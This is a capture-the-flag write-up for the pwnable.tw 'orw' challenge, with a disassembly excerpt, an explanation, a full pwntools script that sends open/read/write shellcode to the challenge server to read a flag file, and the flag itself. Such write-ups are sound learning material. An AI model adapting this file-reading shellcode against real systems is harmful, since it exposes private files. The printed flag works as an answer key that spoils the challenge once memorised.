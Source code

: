# Orw:

## Description: 
```Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001

```
## GDB dump:

We can see that it is a 32 bit executable, dynamically linked non-stripped file. 
```
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
   0x0804858c <+68>:	mov    eax,0x0
```

Once we debug using gdb, we see 2 functions defined. The main function reads our input into 'shellcode' i.e at '0x804a060' and then at line 66, we can see a call to eax. since eax contains the address where our shellcode was stored, it's easy to imagine that we need to write a shellcode using only read, write and open syscalls, and this shellcode will be executed by the program itself as the call to eax is made.

To write the shellcode, we can only choose read, write and open syscalls. We are told that the flag is in ```/home/orw/flag``` directory. So we will first puush these arguments onto the stack, use the open syscall to reach flag through this directory, read and then write.

## Exploit:

```
from pwn import *

context(os='linux', arch='i386')
context.log_level = 'debug'
r = remote('chall.pwnable.tw', 10001)

shellcode = ''

# open syscall
shellcode += 'push %d\n' % u32('ag\0\0')
shellcode += 'push %d\n' % u32('w/fl')
shellcode += 'push %d\n' % u32('e/or')
shellcode += 'push %d\n' % u32('/hom')
shellcode += 'mov edx, 0x0\n'
shellcode += 'mov ecx, 0x0\n'
shellcode += 'mov ebx, esp\n'
shellcode += 'mov eax, 0x5\n'
shellcode += 'int 0x80\n'

# read syscall
shellcode += 'push 0x80\n'
shellcode += 'pop edx\n'
shellcode += 'mov ecx, esp\n'
shellcode += 'mov ebx, eax\n'
shellcode += 'mov eax, 0x3\n'
shellcode += 'int 0x80\n'

# write syscall
shellcode += 'mov edx, eax\n'
shellcode += 'mov ecx, esp\n'
shellcode += 'mov ebx, 0x0\n'
shellcode += 'mov eax, 0x4\n'
shellcode += 'int 0x80\n'

r.recvuntil('Give my your shellcode:')
log.info(disasm(asm(shellcode)))
r.sendline(asm(shellcode))
r.recvall()
#r.interactive()
```

## Flag:
```FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}```

